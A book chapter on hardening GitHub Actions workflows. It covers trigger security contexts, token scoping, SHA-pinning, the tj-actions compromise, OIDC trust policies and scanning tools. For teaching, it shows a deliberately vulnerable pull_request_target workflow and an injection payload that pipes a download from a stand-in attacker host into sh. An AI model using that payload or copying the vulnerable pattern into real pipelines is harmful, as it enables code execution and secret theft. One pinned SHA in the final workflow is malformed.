






# Chapter 5 — Hardening GitHub Actions

*What this chapter covers.* Chapter 4 surveyed CI/CD platforms comparatively and named the
GitHub Actions footguns in passing. This chapter is the deep, prescriptive treatment. GitHub
Actions is the most widely deployed CI system on the planet, which makes it the largest
single CI/CD attack surface and a favorite target for supply-chain operators — the March 2025
`tj-actions/changed-files` compromise reached tens of thousands of repositories in hours. But
Actions is not insecure by nature; it is insecure by *default configuration and by careless
YAML*. Almost every real-world Actions compromise traces to one of a small set of mistakes:
running untrusted code in a privileged trigger, interpolating untrusted strings into a shell,
trusting a mutable action tag, over-scoping a token, or standing up a persistent self-hosted
runner on a public repo. This chapter dissects the security model precisely enough that you
can reason about *why* each mistake is dangerous, then gives you a concrete, copy-adaptable
hardened baseline and the org-level controls to enforce it across a fleet.

Learning goals — after this chapter you should be able to:

- Explain the Actions execution model — workflows, jobs, steps, runners, events — and why
  **the trigger determines the security context**.
- State precisely how **`pull_request`** and **`pull_request_target`** differ, and reproduce
  both the classic RCE/secret-exfiltration pattern and the safe pattern.
- Configure **`GITHUB_TOKEN`** permissions to least privilege, per job.
- Recognize and eliminate **script injection** — untrusted input flowing into `run:`.
- Defend the **third-party action dependency graph**: SHA-pinning, allowlisting, Dependabot,
  and what the `tj-actions/changed-files` (CVE-2025-30066) compromise actually did.
- Replace stored long-lived cloud credentials with **OIDC federation**, and scope the trust
  policy so it cannot be abused.
- Use **environment protection rules**, ephemeral runners, and org policy as fleet-wide
  controls, and apply static analysis (**zizmor**, **actionlint**) and runtime egress control
  (**StepSecurity Harden-Runner**).

## The execution model, and why the trigger is the security boundary

A GitHub Actions **workflow** is a YAML file under `.github/workflows/` in a repository. A
workflow contains one or more **jobs**; each job runs on a **runner** (a VM or container) and
consists of ordered **steps**. A step is either a shell command (`run:`) or an invocation of
an **action** (`uses:`) — a reusable unit of code fetched from another repository or the local
tree. Jobs run in parallel by default and are isolated from each other unless you wire up
dependencies with `needs:` and pass data through outputs or artifacts.

Every workflow run is initiated by an **event**: a push, a pull request, a comment, a
schedule, a manual dispatch, the completion of another workflow. The event is not merely a
trigger — it *defines the security context of the run*. This is the single most important
fact about Actions security, and the source of most of its vulnerabilities. Two workflows
with byte-identical steps can be perfectly safe or catastrophically exploitable depending only
on the `on:` key at the top, because the event determines three things:

1. **Which ref's workflow definition runs** — the code from the PR head, or the code from the
   base branch.
2. **Whether secrets are available** to the run.
3. **What permissions the automatic `GITHUB_TOKEN` carries** — read-only, or read-write.

Hold those three variables in your head; the rest of this chapter is largely about how each
trigger sets them.



### The `GITHUB_TOKEN`

At the start of every workflow run, GitHub mints a fresh installation access token for the
repository and exposes it as the `GITHUB_TOKEN` secret (and as `github.token`). It is scoped
to the one repository, and it expires when the job finishes or after a maximum of 24 hours.
This is genuinely good design: it is short-lived, single-repo, and automatic, so you rarely
need a personal access token for repo-local operations.

The token's *permissions*, however, are configurable and historically defaulted to broad
read-write across the whole repository scope set (contents, packages, pull requests, issues,
deployments, and so on). GitHub now lets an org or repo set the default to **read-only**, and
you should. Regardless of the default, declare permissions explicitly with the `permissions:`
key, ideally at the job level so each job gets exactly what it needs:

```yaml
# Workflow-level default: nothing. Each job opts in to what it needs.
permissions: {}

jobs:
  test:
    runs-on: ubuntu-latest
    permissions:
      contents: read          # clone the repo, nothing else
    steps:
      - uses: actions/checkout@<sha>   # see SHA-pinning below

  label:
    runs-on: ubuntu-latest
    permissions:
      contents: read
      pull-requests: write    # only this job can touch PRs
    steps:
      - run: gh pr edit "$PR" --add-label reviewed
        env:
          GH_TOKEN: ${{ github.token }}
          PR: ${{ github.event.pull_request.number }}
```

Setting `permissions: {}` at the top and granting narrowly per job is the least-privilege
posture. A leaked or misused token can then do only what that one job was authorized to do —
if the `test` job is compromised through a poisoned dependency, its token cannot open a PR,
push a commit, or publish a package. Note that `permissions` only ever *reduces* the token's
scope relative to the trigger's ceiling; a read-only-context trigger like a fork
`pull_request` cannot be escalated to write by asking for it.

### Triggers with elevated context

Most triggers run the workflow *as defined in the ref being acted on*. A push to a branch runs
that branch's workflow; a `pull_request` from a fork runs the fork's workflow file. A handful
of triggers behave differently, and each is a documented sharp edge:

- **`pull_request`** — runs the workflow from the *PR head* (attacker-controlled for fork
  PRs), but with **no secrets** and a **read-only `GITHUB_TOKEN`**. This is the safe default
  for validating untrusted contributions.
- **`pull_request_target`** — runs the workflow from the *base branch* (trusted) but in a
  privileged context: **secrets are available** and the token is **read-write**. Covered in
  depth next.
- **`workflow_run`** — triggered by another workflow completing. It runs the workflow from the
  **default branch**, with full secrets and a write token, even when the triggering workflow
  was a fork `pull_request`. It exists precisely to give a privileged follow-up to an
  unprivileged run — and is dangerous for the same reason.
- **`issue_comment`, `issues`, `discussion_comment`** — fire on activity that *any* GitHub
  user can generate. They run the default-branch workflow with secrets and a write token. A
  "/deploy" or "/retest" comment bot built naïvely on `issue_comment` is a privileged endpoint
  exposed to the entire internet.
- **`schedule`, `workflow_dispatch`** — run the default-branch workflow with full context; not
  attacker-triggerable in the same way, but still privileged.

The unifying rule: **whenever a trigger grants secrets and a write token, be certain no
attacker-controlled code executes in that run.** The base-branch/default-branch workflow
definition is trusted, but everything it *pulls in and executes* — the PR head checkout, the
`Makefile`, `npm` lifecycle scripts, a downloaded artifact — may not be.

## `pull_request` vs `pull_request_target`: the classic RCE

This is the single most exploited pattern in GitHub Actions, so it is worth walking through
mechanically.

You want a workflow that comments on PRs, applies labels, or posts coverage — something that
needs write access and maybe a secret (an API token). With plain `pull_request`, a fork PR
gets a read-only token and no secrets, so your write/secret step cannot run. The tempting fix
is to switch the trigger to `pull_request_target`, which *does* provide secrets and a write
token. That works. The problem is what people write next.

Because `pull_request_target` checks out the **base** ref by default, the workflow author
often "fixes" that too — they explicitly check out the PR head so they can build and test the
proposed change:

```yaml
# VULNERABLE — do not use
name: PR build
on:
  pull_request_target:            # privileged: secrets + write token

jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@<sha>
        with:
          ref: ${{ github.event.pull_request.head.sha }}   # UNTRUSTED code
      - run: |
          npm ci                  # runs attacker's package.json scripts
          npm test                # runs attacker's test code
        env:
          NPM_TOKEN: ${{ secrets.NPM_TOKEN }}              # in scope!
```

Now trace an attack. An attacker forks the repo and opens a PR whose `package.json` contains a
malicious `preinstall` script (or whose test files exfiltrate the environment). Because the
trigger is `pull_request_target`, the run has the base repo's secrets in its environment and a
write-scoped `GITHUB_TOKEN`. Because the workflow checked out `head.sha` and ran `npm ci`, the
attacker's code executes **in that privileged context**. The `preinstall` script reads
`process.env`, finds `NPM_TOKEN` and `GITHUB_TOKEN`, and POSTs them to an attacker server — or
uses the write token to push a commit, publish a package, or open a PR that adds a backdoor.
The attacker never needed commit access; opening a fork PR was enough. This is remote code
execution with your secrets.



### The safe patterns

There are three defensible options, in rough order of preference.

**1. Use `pull_request` and do without secrets for untrusted PRs.** If the job only needs to
build and test the proposed change, `pull_request` is exactly right: it runs the head code but
with no secrets and a read-only token, so RCE in that context steals nothing and can write
nothing. Most "build and test the PR" workflows should be plain `pull_request`. Accept that
you cannot post to a secret-guarded external service from this job.

**2. Split into two workflows with `workflow_run`.** Do untrusted work (build, test) in a
`pull_request` workflow with no secrets. It produces artifacts (e.g., a coverage report) via
`actions/upload-artifact`. A separate `workflow_run` workflow, which runs from the default
branch with secrets, downloads that artifact and does the privileged step (post the comment).
The privileged workflow **never checks out or executes** PR head code — it only consumes inert
data. You must still treat the downloaded artifact as untrusted input (don't `eval` it, don't
pass it unquoted to a shell), but no attacker code runs with your secrets.

**3. Use `pull_request_target` but never check out or execute head code.** This is valid only
for workflows that operate purely on metadata — labeling based on changed *paths*, greeting
first-time contributors, assigning reviewers. The workflow runs base-branch code, uses the
event payload (which is data, not code), and never touches `head.ref`/`head.sha`. The moment
you add a `checkout` of the head or run any script the PR could modify, you are back in the
vulnerable pattern.

```yaml
# SAFE — pull_request_target used for metadata only, no untrusted checkout
name: PR triage
on:
  pull_request_target:
    types: [opened, synchronize, reopened]

permissions:
  pull-requests: write            # narrowly scoped

jobs:
  label:
    runs-on: ubuntu-latest
    steps:
      # No checkout of head; operate on the event payload (data, not code).
      - uses: actions/labeler@<sha>
        # labeler reads changed paths from the API, does not run PR code
```



## Script injection: untrusted input into `run:`

The second endemic class of Actions vulnerability needs no privileged trigger at all — only a
`run:` step that interpolates attacker-controlled data. GitHub Actions expression
interpolation (`${{ ... }}`) is a *textual* substitution performed **before** the shell sees
the script. So this:

```yaml
# VULNERABLE
- run: echo "Checking PR: ${{ github.event.pull_request.title }}"
```

is not "pass the title to echo." It is "paste the title into the shell script as literal
text, then run the result." A PR titled

```
"; curl -s https://evil.example/x | sh; echo "
```

produces the executed script:

```bash
echo "Checking PR: "; curl -s https://evil.example/x | sh; echo ""
```

The attacker's `curl | sh` now runs on your runner. On a plain `pull_request` that steals
nothing, but the same pattern on `push`, `issue_comment`, or any secret-bearing context is
full RCE with credentials. Every field an outside party can set is a potential injection
source: PR title and body, branch/ref names, issue titles and comments, commit messages,
review bodies, author names.

The fix is to **never interpolate untrusted data into an inline script**. Bind it to an
environment variable and let the shell read it as a value — because environment variable
expansion happens *inside* the shell, after parsing, the content can no longer alter the
script's structure:

```yaml
# SAFE
- run: echo "Checking PR: $TITLE"
  env:
    TITLE: ${{ github.event.pull_request.title }}
```

Now the title is data. Quote the variable (`"$TITLE"`) so word-splitting and globbing don't
bite, and you are done. The same discipline applies to passing untrusted values into actions:
prefer `with:` inputs and env over string-building. `actionlint` and `zizmor` (below) both flag
inline interpolation of untrusted contexts automatically; wire them into CI so this class of
bug cannot merge.

## Third-party actions are dependencies you execute

`uses: someorg/some-action@v3` is not a library call. It fetches the code that `v3` points to
*right now* and runs it inside your job, with your job's `GITHUB_TOKEN`, your job's secrets in
the environment, and your runner's filesystem and network. An action is a direct dependency
with the same blast radius as your own workflow code — and, like any dependency, it has its
own transitive dependencies: a composite action calls other actions; a reusable workflow calls
more; a JavaScript action bundles npm packages. You are trusting the entire transitive graph.

The specific hazard unique to Actions is **tag mutability**. Git tags are movable references.
When you pin `@v3` (or `@main`, or `@v3.1.0`), you are trusting the action's maintainer — and
anyone who compromises their account or automation — to never retarget that tag to different
code. There is no lockfile pinning the *content*; the tag is resolved fresh on every run.

### The `tj-actions/changed-files` compromise (CVE-2025-30066, March 2025)

In March 2025 this played out at scale. `tj-actions/changed-files` is a popular action used in
tens of thousands of repositories to compute which files a PR changed. On roughly **March 14,
2025**, an attacker who had obtained a credential able to push to the repository **retargeted
essentially all of the action's version tags** (v1 through the current major, and specific
version tags like `v35`, `v44.x`, etc.) to point at a single malicious commit. The injected
code downloaded and ran a Python script that **dumped the runner process's memory** and scraped
it for secrets — CI/CD credentials, cloud tokens, `GITHUB_TOKEN`s — then **printed the
base64-encoded secrets into the workflow logs**. On public repositories those logs are
world-readable, so the secrets were exfiltrated in plain sight; anyone watching could harvest
them without ever contacting an attacker-controlled server.

Two details matter for the lesson. First, the blast radius came entirely from tag mutation:
every repo that wrote `tj-actions/changed-files@v44` (a tag) pulled the malicious code on its
next run, while any repo that had pinned a specific commit SHA was unaffected — the SHA still
pointed at the original, unmodified code. Second, the incident was reportedly *chained*: the
credential used to retarget the tags is believed to have been obtained via an earlier
compromise of another action (`reviewdog/action-setup`) that leaked a token belonging to the
`tj-actions` automation. That is the transitive-graph risk made concrete — a compromise two
hops away from your workflow.



### Pin by commit SHA

The fix is to pin every third-party action by its **full 40-character commit SHA**, not a tag:

```yaml
# Tag — mutable, resolved fresh every run
- uses: actions/checkout@v4

# SHA — immutable, always the exact reviewed code (comment records the version)
- uses: actions/checkout@11bd71901bbe5b1630ceea73d27597364c9af683   # v4.2.2
```

A SHA is a cryptographic content address; a commit cannot be altered under you without changing
its hash. Pinning to a SHA means "run exactly the code I reviewed," which is what you want for
anything with access to your token and secrets. Keep the human-readable version in a trailing
comment so the pin is auditable.

SHA-pinning has one real cost: pins do not automatically receive upstream security fixes. A SHA
frozen at a version with a later-discovered vulnerability stays frozen. The answer is not to
un-pin; it is to **automate pin updates with Dependabot**, which understands SHA-pinned actions
and opens PRs bumping the SHA (and its comment) when the action publishes a new release. You get
immutability *and* a review-gated update path:

```yaml
# .github/dependabot.yml
version: 2
updates:
  - package-ecosystem: "github-actions"
    directory: "/"
    schedule:
      interval: "weekly"
```

For **first-party `actions/*` actions** (checkout, setup-node, upload-artifact), the risk is
lower — they are maintained by GitHub — but SHA-pinning them too costs nothing and keeps your
policy uniform ("everything is SHA-pinned") rather than carving exceptions attackers can probe.

### Allowlisting and auditing actions

At the repository, org, or enterprise level, GitHub lets you restrict **which actions may run
at all** (Settings → Actions → General → *Actions permissions*). The options are: allow all;
allow only actions authored by GitHub (`actions/*`); allow only "verified creator" actions; or
allow a specific allowlist you curate (`actions/*, my-org/*, aquasecurity/trivy-action@*`,
etc.). Combined with the option to require actions to be **pinned to a SHA**, this turns "any
of the internet's actions can run in our org" into "only vetted actions can run." For a fleet,
this is the single highest-leverage control — see the distributed-systems lens.

Before adopting any action, audit it as you would any dependency: read the source, check that
the repository is active and the maintainer reputable, prefer actions that are small and do one
thing, look at what network and filesystem access it needs, and check whether it pulls further
actions or bundles opaque binaries. Re-audit at each SHA bump; Dependabot PRs should get a real
review, not a rubber stamp.

## Runners: ephemeral good, persistent dangerous

A **runner** is the machine that executes a job. GitHub offers two kinds.

**GitHub-hosted runners** are ephemeral by design: each job gets a fresh, clean VM that is
destroyed when the job finishes. Nothing persists between jobs, so one job cannot poison the
next, and a compromised job's foothold dies with the VM. This is a strong default and, for most
workloads, the right choice.

**Self-hosted runners** are machines you provide and register. By default they are
**persistent** — the runner process stays up and takes job after job on the same host. That
persistence is the danger. Anything a job writes to disk, installs, or leaves running in memory
is visible to the *next* job on that runner. On a private repo with only trusted contributors
this is a manageable risk. On a **public repo it is acute**: a fork `pull_request` can schedule
a job onto your self-hosted runner (if you allow fork PRs to use it), and that untrusted job now
runs on a long-lived host inside your network. The attacker can install a persistent implant,
wait for a later privileged job to run on the same runner and steal its secrets, and pivot into
whatever the runner's network can reach. **GitHub explicitly recommends never using self-hosted
runners with public repositories** for exactly this reason.

The hardening principles for self-hosted runners:

- **Make them ephemeral.** Register runners in **just-in-time / ephemeral** mode (the
  `--ephemeral` flag, or JIT config tokens) so each runner accepts exactly one job and is then
  deregistered and the host destroyed. This recovers the clean-per-job property of hosted
  runners.
- **Isolate the host.** Run each runner in a throwaway VM or container with no standing
  credentials, minimal tooling, and a hardened base image.
- **Segment the network.** Put runners in a dedicated subnet with egress controls; do not let a
  runner reach production databases, cloud metadata endpoints with juicy roles, or internal
  admin planes it has no business touching.
- **Never expose them to untrusted PRs.** Do not attach self-hosted runners to public repos, or
  require explicit approval for fork PRs and keep those PRs off self-hosted pools.

The standard way to run ephemeral self-hosted runners at scale is the **Actions Runner
Controller (ARC)**, a Kubernetes operator that provisions runner pods on demand and tears them
down after each job — one job, one pod, then gone. ARC gives you the clean-per-job guarantee
with the elasticity and isolation of Kubernetes, and is the recommended architecture when you
must self-host (for hardware access, private-network reachability, or cost). Runner isolation,
ephemerality, and ARC are the subject of **Chapter 8 — Ephemeral and Isolated Runners**; here
the takeaway is simply: *ephemeral by default, and never persistent on a public repo.*

## OIDC: keyless cloud access

The worst secret is the one you store. A long-lived cloud credential in a repository secret —
an AWS access key, a GCP service-account JSON key — is a static, high-value target: it sits in
the secret store indefinitely, it is exposed to every job that references it, and if it leaks
(script injection, a poisoned action, a careless `env` dump) it stays valid until someone
notices and rotates it. The `tj-actions` incident dumped exactly these.

GitHub Actions ships an **OIDC identity provider** that lets you eliminate stored cloud
credentials entirely. The mechanism: within a workflow that has `id-token: write` permission, a
step requests a short-lived **OIDC token** (a signed JWT) from GitHub's provider
(`token.actions.githubusercontent.com`). GitHub signs the JWT and embeds **claims** describing
exactly what produced it — the repository, the ref, the workflow, the event, the environment,
and a composite `sub` (subject) claim like `repo:my-org/my-repo:ref:refs/heads/main` or
`repo:my-org/my-repo:environment:production`. The workflow presents this JWT to the cloud
provider, which **validates GitHub's signature and checks the claims against a trust policy**;
if they match, it issues **short-lived** cloud credentials (an AWS STS session, a GCP access
token, an Azure token). No secret is stored anywhere; the trust is rooted in GitHub's signed
assertion of *which workflow is running*.



Here is the AWS shape — federate into a role instead of storing keys:

```yaml
permissions:
  id-token: write     # REQUIRED to request the OIDC token
  contents: read

jobs:
  deploy:
    runs-on: ubuntu-latest
    environment: production
    steps:
      - uses: aws-actions/configure-aws-credentials@<sha>   # v4.x
        with:
          role-to-assume: arn:aws:iam::123456789012:role/gha-deploy
          aws-region: us-east-1
      - run: aws s3 sync ./dist s3://my-artifacts/
```

The security of this rests entirely on the **cloud-side trust policy**, and this is where the
footgun lives. The AWS IAM role's trust policy must constrain both the audience *and* the
subject claim to the specific repository — and ideally the specific branch or environment — that
is allowed to assume it:

```json
{
  "Effect": "Allow",
  "Principal": { "Federated": "arn:aws:iam::123456789012:oidc-provider/token.actions.githubusercontent.com" },
  "Action": "sts:AssumeRoleWithWebIdentity",
  "Condition": {
    "StringEquals": {
      "token.actions.githubusercontent.com:aud": "sts.amazonaws.com",
      "token.actions.githubusercontent.com:sub": "repo:my-org/my-repo:environment:production"
    }
  }
}
```

The catastrophic misconfiguration is a **wildcard `sub`**. If the condition uses
`StringLike` with `repo:my-org/*` (or worse, matches any repo), then *any* workflow in the org
— including one an attacker adds to a repo they can push to, or a fork PR under a permissive
trigger — can mint a token whose `sub` matches, assume the production role, and take over your
cloud account. Always match the exact `repo:ORG/REPO:...` prefix, and scope further to a
specific `ref` (`...:ref:refs/heads/main`) or, better, an `environment`
(`...:environment:production`) so that only runs targeting that protected environment can
assume the role. GCP **Workload Identity Federation** and **Azure federated credentials** work
the same way, with the same wildcard hazard in their attribute conditions.

OIDC federation is the modern best practice and should be your default for cloud access from
CI. It connects directly to **Book 5, Chapter 4 — Workload Identity**, which develops the
general pattern of short-lived, attested machine identity of which GitHub OIDC is one instance.

## Secrets and environments

Where OIDC is not available (a third-party SaaS with only static API tokens), you still need
stored secrets — do it carefully.

**Scopes.** Secrets exist at three levels: **repository**, **organization** (shared to selected
repos), and **environment** (bound to a named deployment environment). Prefer the narrowest
scope: an environment secret exposed only to jobs deploying to `production` beats an org secret
every repo can read. Remember the trigger rule — **fork `pull_request` runs never receive
secrets**, which is a feature; do not defeat it by moving to `pull_request_target` to "make
secrets available to PRs."

**Environment protection rules.** A GitHub **environment** is more than a secret bucket; it is a
deploy gate. On an environment you can require:

- **Required reviewers** — a human (or team) must approve before any job targeting the
  environment runs. This is your production change-control gate, enforced by the platform.
- **Wait timers** — a mandatory delay before the deployment proceeds (a window to abort).
- **Deployment branch restrictions** — only specified branches (e.g., `main`, or tags matching
  a pattern) may deploy to the environment.

A job opts in with `environment: production`, and the run pauses until the rules are satisfied.
Pair this with OIDC scoped to `environment:production`, and you have a strong composite control:
only `main`, only after human approval, only then can a short-lived credential to touch prod be
minted at all.

```yaml
jobs:
  deploy:
    runs-on: ubuntu-latest
    environment: production      # gated by required reviewers, branch rules
    permissions:
      id-token: write
      contents: read
    steps:
      - uses: aws-actions/configure-aws-credentials@<sha>
        with:
          role-to-assume: arn:aws:iam::123456789012:role/gha-deploy
          aws-region: us-east-1
      - run: ./deploy.sh
```

**Masking is not a security boundary.** Actions masks known secret *values* in logs
(replacing them with `***`), but masking is best-effort string replacement: it does not catch a
secret that has been transformed (base64-encoded, split, hashed) before printing, which is
exactly what the `tj-actions` payload did to defeat it. Treat masking as a guardrail against
accidental disclosure, never as a control against a determined exfiltrator. The limits of
masking, and secret hygiene generally, are the subject of **Chapter 6 — Secrets in CI/CD**.

## Static and runtime tooling

Two categories of tooling catch what review misses.

**Static analysis of workflow YAML.**

- **`actionlint`** (rhysd) — a linter for workflow files. It validates syntax and expressions,
  checks `runs-on` labels and `uses` references, integrates shellcheck on `run:` scripts, and
  flags many script-injection sinks (untrusted `${{ }}` in `run:`). Fast; run it as a required
  check.
- **`zizmor`** (originally by William Woodruff, now under Trail of Bits) — a security-focused
  auditor for GitHub Actions. It has purpose-built rules ("audits") for the vulnerabilities in
  this chapter: dangerous `pull_request_target` + checkout, template/script injection,
  over-broad `permissions`, unpinned actions (`unpinned-uses`), self-hosted-runner exposure,
  and more. It scores findings by confidence and severity and is designed to run in CI or
  across an org's repos.
- **`octoscan`** — a static vulnerability scanner for GitHub Actions workflows in the same
  space, useful as a second opinion focused on dangerous patterns and untrusted-input flows.

**Runtime egress control.**

- **StepSecurity Harden-Runner** (`step-security/harden-runner`) — an action you add as the
  first step of a job. It installs an agent on the runner that **monitors and can block network
  egress** (allowlist the endpoints a job legitimately needs), monitors file and process
  activity, and detects anomalous behavior — including secret-exfiltration attempts. In
  `audit` mode it records every outbound connection so you can build an allowlist; in `block`
  mode it drops connections to anything not allowlisted. Harden-Runner is precisely the control
  that would have caught and blocked the `tj-actions` payload's exfiltration, and its
  telemetry is what surfaced that incident. It is the most direct runtime defense-in-depth for
  Actions:

```yaml
- uses: step-security/harden-runner@<sha>
  with:
    egress-policy: block
    allowed-endpoints: >
      github.com:443
      api.github.com:443
      registry.npmjs.org:443
```

None of these tools replaces the design-level fixes in this chapter — a blocked exfiltration is
still an attacker running code on your runner — but they are the layers that contain the
mistakes that slip through.

## A hardened baseline workflow

Putting the controls together — least-privilege permissions, SHA-pinned actions, runtime egress
control, safe handling of untrusted input, environment-gated OIDC deploy:

```yaml
name: build-and-deploy
on:
  push:
    branches: [main]
  pull_request:                 # untrusted PRs: no secrets, read-only token

permissions: {}                 # deny by default; grant per job

jobs:
  build:
    runs-on: ubuntu-latest
    permissions:
      contents: read
    steps:
      - uses: step-security/harden-runner@<sha>        # runtime egress control
        with:
          egress-policy: audit
      - uses: actions/checkout@11bd71901bbe5b1630cea73d27597364c9af683   # v4.2.2
      - uses: actions/setup-node@<sha>                 # v4.x
        with:
          node-version: 20
      - run: npm ci --ignore-scripts                   # don't run lifecycle scripts blindly
      - run: npm test
      # untrusted PR metadata handled as data, never interpolated into shell:
      - run: echo "Built PR titled: $PR_TITLE"
        env:
          PR_TITLE: ${{ github.event.pull_request.title }}

  deploy:
    needs: build
    if: github.ref == 'refs/heads/main' && github.event_name == 'push'
    runs-on: ubuntu-latest
    environment: production      # required reviewers + branch restriction
    permissions:
      id-token: write            # OIDC — no stored cloud creds
      contents: read
    steps:
      - uses: step-security/harden-runner@<sha>
        with:
          egress-policy: audit
      - uses: actions/checkout@11bd71901bbe5b1630cea73d27597364c9af683   # v4.2.2
      - uses: aws-actions/configure-aws-credentials@<sha>   # v4.x
        with:
          role-to-assume: arn:aws:iam::123456789012:role/gha-deploy
          aws-region: us-east-1
      - run: ./deploy.sh
```

> The `<sha>` placeholders stand in for real 40-character commit SHAs you must resolve and pin
> for each action; the trailing `# vX.Y` comment records the human-readable version. Resolve
> them once, let Dependabot bump them thereafter.

## The hardening checklist

| # | Control | Setting / mechanism | What it defeats |
|---|---------|---------------------|-----------------|
| 1 | Least-privilege token | `permissions: {}` top-level, grant per job; org default read-only | Token abuse; blast radius of a compromised job |
| 2 | Pin actions by SHA | `uses: org/action@<40-char-sha>` + version comment | Tag-mutation supply-chain (tj-actions) |
| 3 | Auto-update pins | Dependabot `github-actions` ecosystem | Frozen pins missing security fixes |
| 4 | Restrict allowed actions | Org/enterprise *Actions permissions* allowlist; require SHA pin | Arbitrary internet actions running in your org |
| 5 | No untrusted checkout in privileged triggers | Never `checkout` head under `pull_request_target`/`workflow_run` | RCE + secret exfil (classic pattern) |
| 6 | No untrusted input in `run:` | Bind to `env:`, quote; lint with actionlint/zizmor | Script injection |
| 7 | OIDC, not stored cloud creds | `id-token: write` + cloud trust policy scoped to exact `repo:ORG/REPO:environment:...` | Long-lived credential theft; over-broad `sub` |
